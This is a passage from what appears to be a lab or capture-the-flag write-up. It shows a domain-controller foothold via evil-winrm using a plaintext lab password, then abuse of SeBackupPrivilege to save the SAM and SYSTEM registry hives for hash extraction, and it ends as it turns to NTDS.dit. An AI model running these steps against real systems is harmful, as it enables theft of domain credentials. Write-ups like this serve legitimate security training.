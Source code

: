 Success! now we can foothold onto the machine

## Foothold

Let's use the `evil-winrm` tool in order to get our foothold on the *DC* &#x20;

```bash
evil-winrm -i $TARGET -u 'Caroline.Robinson' -p 'BabyStarted123!';
```

Before using `BloodHound` to escalate our privileges, let's try to do some basic enumeration to see our current user's privileges

```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

And we got a dangerous privilege!: `SeBackupPrivilege` we can perform a copy of the `SAM`, `SYSTEM` & `NTDS` which are sensitive databases that contain juicy hashes

## Abusing SeBackupPrivilege

First, let's copy the `SAM` & `SYSTEM` onto our `C:\Temp` folder using `reg`. These registry hives contain:

* `SAM hive`: Local Security Account Manager database with local user hashes
* `SYSTEM hive`: System boot key needed to decrypt the SAM database

```powershell
*Evil-WinRM* PS C:\Temp> reg save HKLM\SAM C:\Temp\sam.hive
The operation completed successfully.
*Evil-WinRM* PS C:\Temp> reg save HKLM\SYSTEM C:\Temp\system.hive
The operation completed successfully.
*Evil-WinRM* PS C:\Temp> dir
    Directory: C:\Temp
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/24/2025   9:01 AM          49152 sam.hive
-a----        10/24/2025   9:01 AM       20684800 system.hive
```

Now for the `NTDS.dit` - this is the Active Directory database file that contains all domain user hashes, but it's constantly locked by the `LSASS` process. We need to use *Volume Shadow Copy* Service `(VSS)` to create a snapshot while the file is in use.
